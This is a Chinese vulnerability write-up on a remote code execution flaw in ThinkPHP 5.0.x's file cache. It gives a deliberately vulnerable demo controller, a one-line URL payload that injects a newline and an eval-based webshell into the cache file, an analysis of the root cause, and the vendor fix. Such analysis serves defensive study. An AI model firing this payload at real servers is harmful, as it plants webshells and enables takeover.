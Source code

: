 # 原创
：  ThinkPHP5.0.x 远程代码执行

# ThinkPHP5.0.x 远程代码执行

#### ThinkPHP5.0.x 远程代码执行

## 漏洞概要

> 



## 初始配置

> 
获取测试环境代码


```
composer create-project --prefer-dist topthink/think=5.0.10 tpdemo

```

> 
将 composer.json 文件的 require 字段设置成如下


```
"require": {
    "php": "&gt;=5.4.0",
    "topthink/framework": "5.0.10"
},

```

> 
然后执行 `composer update` ，并将 `application/index/controller/Index.php` 文件代码设置如下


```
&lt;?php
namespace app\index\controller;
use think\Cache;
class Index
{
    public function index()
    {
        Cache::set("name",input("get.username"));
        return '&lt;style type="text/css"&gt;*{ padding: 0; margin: 0; } .think_default_text{ padding: 4px 48px;} a{color:#2E5CD5;cursor: pointer;text-decoration: none} a:hover{text-decoration:underline; } body{ background: #fff; font-family: "Century Gothic","Microsoft yahei"; color: #333;font-size:18px} h1{ font-size: 100px; font-weight: normal; margin-bottom: 12px; } p{ line-height: 1.6em; font-size: 42px }&lt;/style&gt;&lt;div style="padding: 24px 48px;"&gt; &lt;h1&gt;:)&lt;/h1&gt;&lt;p&gt; ThinkPHP V5&lt;br/&gt;&lt;span style="font-size:30px"&gt;十年磨一剑 - 为API开发设计的高性能框架&lt;/span&gt;&lt;/p&gt;&lt;span style="font-size:22px;"&gt;[ V5.0 版本由 &lt;a href="http://www.qiniu.com" target="qiniu"&gt;七牛云&lt;/a&gt; 独家赞助发布 ]&lt;/span&gt;&lt;/div&gt;&lt;script type="text/javascript" src="http://tajs.qq.com/stats?sId=9347272" charset="UTF-8"&gt;&lt;/script&gt;&lt;script type="text/javascript" src="http://ad.topthink.com/Public/static/client.js"&gt;&lt;/script&gt;&lt;thinkad id="ad_bd568ce7058a1091"&gt;&lt;/thinkad&gt;';
    }
}
?&gt;

```

## 漏洞利用

> 
Payload


```
http://127.0.0.1/cms/public/index.php?username=H3rmesk1t%0d%0a@eval($_REQUEST[d1no]);//

```

<img alt="在这里插入图片描述" src="https://img-blog.csdnimg.cn/b22f06b4988d4551aff167b951cd61d5.png#pic_center"/><br/> <img alt="在这里插入图片描述" src="https://img-blog.csdnimg.cn/7a818445aaaf4618b4c73d39c01eddcf.png?x-oss-process=image/watermark,type_ZmFuZ3poZW5naGVpdGk,shadow_10,text_aHR0cHM6Ly9ibG9nLmNzZG4ubmV0L0xZSjIwMDEwNzI4,size_16,color_FFFFFF,t_70#pic_center"/>

## 漏洞分析

> 
跟进 `Cache` 类的 `set` 方法，发现其先通过单例模式 `init` 方法，创建了一个类实例，该类由 `cache` 的配置项 `type` 决定，默认情况下其值为 `File` ，在本例中 `self::$handler` 即为 `think\cache\driver\File` 类实例


<img alt="在这里插入图片描述" src="https://img-blog.csdnimg.cn/6d03e14650ec43808eb2f6cf3d2d4272.png?x-oss-process=image/watermark,type_ZmFuZ3poZW5naGVpdGk,shadow_10,text_aHR0cHM6Ly9ibG9nLmNzZG4ubmV0L0xZSjIwMDEwNzI4,size_16,color_FFFFFF,t_70#pic_center"/><br/> <img alt="在这里插入图片描述" src="https://img-blog.csdnimg.cn/5e9f26f0e86c4cf0a0b4d80b7059682a.png?x-oss-process=image/watermark,type_ZmFuZ3poZW5naGVpdGk,shadow_10,text_aHR0cHM6Ly9ibG9nLmNzZG4ubmV0L0xZSjIwMDEwNzI4,size_16,color_FFFFFF,t_70#pic_center"/><br/> <img alt="在这里插入图片描述" src="https://img-blog.csdnimg.cn/c4818b22818a404d88246d5fa9be73ef.png?x-oss-process=image/watermark,type_ZmFuZ3poZW5naGVpdGk,shadow_10,text_aHR0cHM6Ly9ibG9nLmNzZG4ubmV0L0xZSjIwMDEwNzI4,size_16,color_FFFFFF,t_70#pic_center"/>

> 
在 `thinkphp/library/think/cache/driver/` 目录下可以看到 Thinkphp5 支持的几种缓存驱动类，接着上面的分析，程序调用 `think\cache\driver\File` 类的 `set` 方法，可以看到 `data` 数据没有经过任何处理，只是序列化后拼接存储在文件中，这里的 `$this-&gt;options['data_compress']` 变量默认情况下为 `false` ，所以数据不会经过 `gzcompress` 函数处理，虽然在序列化数据前面拼接了单行注释符 `//` ，但是我们可以通过注入换行符绕过该限制


<img alt="在这里插入图片描述" src="https://img-blog.csdnimg.cn/c608b06ace83450d93e3ed4050d754ba.png?x-oss-process=image/watermark,type_ZmFuZ3poZW5naGVpdGk,shadow_10,text_aHR0cHM6Ly9ibG9nLmNzZG4ubmV0L0xZSjIwMDEwNzI4,size_16,color_FFFFFF,t_70#pic_center"/><br/> <img alt="在这里插入图片描述" src="https://img-blog.csdnimg.cn/d76f13392544417d9f3966bf1f141fea.png?x-oss-process=image/watermark,type_ZmFuZ3poZW5naGVpdGk,shadow_10,text_aHR0cHM6Ly9ibG9nLmNzZG4ubmV0L0xZSjIwMDEwNzI4,size_16,color_FFFFFF,t_70#pic_center"/>

> 
来看看缓存文件的名字是如何生成的，从前面可以看到文件名是通过调用 `getCacheKey` 方法获得的，跟进该方法可以看到缓存文件的子目录和文件名均和缓存类设置的键有关（如本例中缓存类设置的键为 name ），程序先获得键名的 `md5` 值，然后将该 `md5` 值的前 `2` 个字符作为缓存子目录，后 30 字符作为缓存文件名，如果应用程序还设置了前缀 `$this-&gt;options['prefix']` ，那么缓存文件还将多一个上级目录


> 
这个漏洞要想利用成功，得知道缓存类所设置的键名，这样才能找到 `webshell` 路径；其次如果按照官方说明开发程序， `webshell` 最终会被写到 `runtime` 目录下，而官方推荐 `public` 作为 web 根目录，所以即便写入了 `shell` ，也无法直接访问到；最后如果程序有设置 `$this-&gt;options['prefix']` 的话，在没有源码的情况下还是无法获得 `webshell` 的准确路径


## 漏洞修复

> 
官方的修复方法是：将数据拼接在 `php` 标签之外，并在 `php` 标签中拼接 `exit()` 函数


## 攻击总结

> 
参考Mochazz师傅的审计流程

